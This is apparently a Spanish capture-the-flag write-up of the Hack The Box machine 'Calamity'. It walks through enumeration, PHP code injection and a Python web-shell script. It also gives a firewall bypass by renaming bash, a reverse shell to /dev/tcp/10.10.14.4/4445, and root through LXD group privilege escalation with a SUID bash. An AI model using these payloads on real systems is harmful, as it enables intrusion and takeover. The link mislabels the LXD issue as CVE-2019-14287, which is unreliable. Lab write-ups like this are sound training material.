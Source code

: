 ```yaml
---
title : MQ|Calamity|HTB|RCE|LXD
published : True
---
```


<div class="contenedor imgc">
    <img class="imgc" src="imgs/Calamity/Calamity0.png" style="border-radius: 150px; width: 169px" alt="Calamity log">
    <div> 
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Dificultad: Difícil </p>
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Url: <a href="https://app.hackthebox.com/machines/Calamity" style="color: lightblue;">Calamity</a></p>
    </div>
</div>


 <h2><font color="white"><center> # Calamity</center></font></h2>
* Empezamos con la enumeración de puertos.
> sudo nmap --min-rate 5000 -sS -Pn --open -p- 10.10.10.27

<img src="imgs/Calamity/Calamity1.png">

<br>
* Posteriormente vemos la version y servicio que corren en estos puertos.
>nmap -sCV -p22,80 10.10.10.27

<img src="imgs/Calamity/Calamity2.png">

<br>
* Empezamos la identificación de tecnologías plugins y versiones para esta pagina web.

<img src="imgs/Calamity/Calamity3.png">

<br>
* Probamos credenciales por defecto por ssh ya que es el puerto con un poco mas de relevancia, pero no obtenemos nada relevante.
>ssh anonymous@10.10.10.27

<img src="imgs/Calamity/Calamity4.png">

<br>
* Lanzamos un script de nmap para el reconocimiento de posibles rutas en la pagina web.
> nmap --script http-enum -p80 10.10.10.27

<img src="imgs/Calamity/Calamity5.png">

<br>

* Observando las rutas, veo que hay credenciales en la pagina web.

<img src="imgs/Calamity/Calamity6.png">

* Cuando inicio sesion tenemos un campo el cual es injectable a código php, y obtenemos un RCE.

<img src="imgs/Calamity/Calamity7.png">

<br>
* Cuando intento crearme una reverse Shell no me llega la conexión, lo que me hace pensar que tiene reglas de firewall instaladas para matar la conexión cuando se detecte, por lo que empezamos a montar un script en python simulando una Shell.

```python
#!/usr/bin/python

import requests

while True:

	command = input("~$ ")
	url = f'http://10.10.10.27/admin.php/?0={command}&html=%3C?=`$_GET[0]`;?%3E' 

	cookies = {
	    'adminpowa': 'noonecares'
	}

	response = requests.get(url, cookies=cookies)

	print(response.text)

```
<br>
* web-shell.py

<img src="imgs/Calamity/Calamity8.png">

* Si el cortafuegos me mata la conexión cuando detecta el uso de bash, porque no cambiar el nombre de bash?

<img src="imgs/Calamity/Calamity9.png">
<img src="imgs/Calamity/Calamity10.png">

* Renombrando la bash intentemos ahora entablar la conexión, pero para que no de problemas en cabeza a el urlencode codificamos primero la petición en ese formato que poseerá la Reverse Shell.
>/tmp/bypass -c '/tmp/bypass -i >& /dev/tcp/10.10.14.4/4445 0>&1'

<img src="imgs/Calamity/Calamity11.png">

<br>
* Posteriormente mandamos la petición y nos ponemos en escucha
>sudo nc -nlvp 4445

<img src="imgs/Calamity/Calamity12.png">

* Empezamos con un corto tratamiento a la consola para hacerla un poco mas interactiva.
```bash
script /dev/null -c bash
ctrl + z
stty raw -echo; fg
reset xterm
```

<img src="imgs/Calamity/Calamity13.png">

<br>
* Exportamos configuraciones para hacerla aun mas interactiva.
```bash
export TERM=xterm
export SHELL=bash
```

<img src="imgs/Calamity/Calamity14.png">

* Observamos que hay un usuario en /home y conseguimos la primera Flag.

<img src="imgs/Calamity/Calamity16.png">

* Vemos que efectivamente había un firewall que nos mataba las conexiones.

<img src="imgs/Calamity/Calamity17.png">

* Vemos dos archivo con la misma extension.

<img src="imgs/Calamity/Calamity18.png">

<br>
* Nos transferimos esos archivos para examinarlos mas a fondo.

<img src="imgs/Calamity/Calamity19.png">

* Tienen el mismo sonido pero no el mismo identificador.

<img src="imgs/Calamity/Calamity20.png">

* Instalamos audacity.
> sudo apt-get install aducity

<br>
* Importamos los audios y le damos en la parte de invertir.

<img src="imgs/Calamity/Calamity21.png">

<br>
* Posteriormente podemos escuchar que nos dice una credencial al inicio y una parte al final, como el audio esta inverso la parte final es la inicial y la parte inicial es la parte final.
> Credencial escuchada : 18547936..*

<br>
* Mirando mas a detalle identifique que la credencial era del usuario xalvas.

<img src="imgs/Calamity/Calamity22.png">

<br>

* Al ver los grupos vemos que estamos enlazados a (LXD) lo que hace vulnerable al equipo a un ataque (LXD) para el despliegue de contenedores.
<a href="https://otterhacker.github.io/Pentest/Techniques/Privileges%20escalation/Linux.html">Mas información CVE-2019-14287.</a>

<img src="imgs/Calamity/Calamity23.png">

<br>
* Posteriormente vemos que hay un exploit creado por s4vitar que simplemente lo que hace es automatizar el levantamiento del contenedor.

<img src="imgs/Calamity/Calamity24.png">

<br>
* Nos dice que tenemo que descarga el archivo alpine-builder.

<img src="imgs/Calamity/Calamity25.png">

<br>
* Una vez descargado lo que hacemos sera darle soporte a las dependencias, ya que de por si si lo ejecuta sin actualizar la dependencia le dara errores.
>wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine && sed -i 's,yaml_path="latest-stable/releases/$apk_arch/latest-releases.yaml",yaml_path="v3.8/releases/$apk_arch/latest-releases.yaml",' build-alpine

<img src="imgs/Calamity/Calamity26.png">

* Convertimos a formato Unix el script.
>dos2unix 46978.sh

<img src="imgs/Calamity/Calamity27.png">

* Vemos que la maquina es de 32 bits sabemos esto por el i686, esto es importante en base a la creación del docker.
>uname -a

<img src="imgs/Calamity/Calamity28.png">

* Posteriormente damos permisos de ejecución y preparamos el build en formato de 32 bits.

<img src="imgs/Calamity/Calamity29.png">

* Nos montamos un servidor http para poder compartir los archivos y los descargamos en la maquina de htb, cabe aclarar que la única ruta donde tenemos permisos de escritura es en /dev/shm.

<img src="imgs/Calamity/Calamity30.png">

<br>
* Procedemos con la ejecución del docker.

<img src="imgs/Calamity/Calamity31.png">

* El error que aparece es porque se esta invocando el docker dos veces para solucionar ese error simplemente comentamos la siguiente linea de código.

<img src="imgs/Calamity/Calamity32.png">

<br>

* Procedemos a subir el archivo con las modificaciones realizadas.

<img src="imgs/Calamity/Calamity33.png">

* Cuando volvamos a ejecutar el script nos dará root

<img src="imgs/Calamity/Calamity34.png">

<br>

* Lo que hace es montar toda la partición de la raíz en un contenedor el cual esta montado en /mnt/root/ Cualquier cosa que modifique en esa montura la modificara en la maquina real, entonces para ganar root completamente agregamos permisos SUID al binario /bin/bash.

<img src="imgs/Calamity/Calamity35.png">

<br>

* Ya podríamos ver la flag de root.

<img src="imgs/Calamity/Calamity36.png">
